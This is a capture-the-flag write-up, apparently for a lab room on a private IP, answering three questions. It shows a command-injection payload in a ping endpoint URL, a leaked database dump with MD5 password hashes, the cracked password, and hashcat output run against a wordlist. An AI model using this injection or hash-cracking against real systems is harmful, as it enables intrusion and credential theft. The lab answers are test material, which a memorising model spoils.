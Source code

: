By Analysing We have Remote Code Execution.

1. **There is a database lying around, what is its filename?**

- **_Ans: utech.db.sqlite_**

By Using this URL http://10.10.158.186:8081/ping?ip=`ls`

We have got

`ping: utech.db.sqlite: Name or service not known`

2. **What is the first user's password hash?**

- **_Ans: f357a0c52799563c7c7b76c1e7543a32_**

Lets Cat this. We have found below Hash

```
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded

```

3. **What is the password associated with this hash?**

- **_Ans: n100906_**

Lets Crack Above Hash with Hashcat

Cracking `f357a0c52799563c7c7b76c1e7543a32`

```

root@ip-10-10-191-82:~/Desktop# hashcat hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1-66-g6a419d06) starting...

* Device #2: Outdated POCL OpenCL driver detected!

This OpenCL driver has been marked as likely to fail kernel compilation or to produce false negatives.
You can use --force to override this, but do not report related errors.

OpenCL API (OpenCL 1.2 LINUX) - Platform #1 [Intel(R) Corporation]
==================================================================
* Device #1: Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz, 3878/3942 MB (985 MB allocatable), 2MCU

OpenCL API (OpenCL 1.2 pocl 1.1 None+Asserts, LLVM 6.0.0, SPIR, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
===========================================================================================================================
* Device #2: pthread-Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
```